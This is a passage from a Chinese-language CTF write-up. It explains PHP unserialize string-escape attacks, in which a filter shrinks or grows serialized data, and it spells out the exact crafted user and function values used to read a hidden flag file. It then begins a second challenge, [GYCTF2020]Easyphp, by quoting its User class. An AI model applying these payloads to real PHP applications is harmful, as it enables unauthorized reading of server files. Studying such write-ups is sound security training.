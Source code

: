 读取的内容是 _SESSION['img'] 

同时存在一个变量覆盖及序列化数据的替换

首先默认的序列化数据是

```
a:3:{s:4:"user";s:5:"guest";s:8:"function";s:14:"highlight_file";s:3:"img";s:20:"Z3Vlc3RfaW1nLnBuZw==";}
```

这里可以控制的部分是 user 和 function 的内容

于是要利用过滤，用 user 吃掉后面的

```
";s:8:"function";s:14:
```

之后在 function 的部分便可以写入数据控制后面的内容了

要吃掉的数据一共是22个，于是 user 的值为 phpphpphpphpphpphpflag

_SESSION[function] 的值为

```
;s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";s:3:"ccc";s:2:"ok";}
```

这里要保证数组内的个数相等，所以要传入两个值

再传入 f = show_image 即可查看文件

之后回显为

```
$flag = 'flag in /d0g3_fllllllag';
```

再次编码查看文件，获得 flag



**[GYCTF2020]Easyphp**

这个也是通过改变序列化字节造成的漏洞，和上一个减少不同，这个是增加字节长度

网站根目录下 www.zip 下载题目

先看这个存放类的 lib.php

在登录时用了 User 类的 login 方法

```
class User
{
    public $id;
    public $age=null;
    public $nickname=null;
    public function login() {
        if(isset($_POST['username'])&&isset($_POST['password'])){
        $mysqli=new dbCtrl();
        $this->id=$mysqli->login('select id,password from user where username=?');
        if($this->id){
        $_SESSION['id']=$this->id;
        $_SESSION['login']=1;
        echo "你的ID是".$_SESSION['id'];
        echo "你好！".$_SESSION['token'];
        echo "<script>window.location.href='./update.php'</script>";
        return $this->id;
        }
    }
}
```
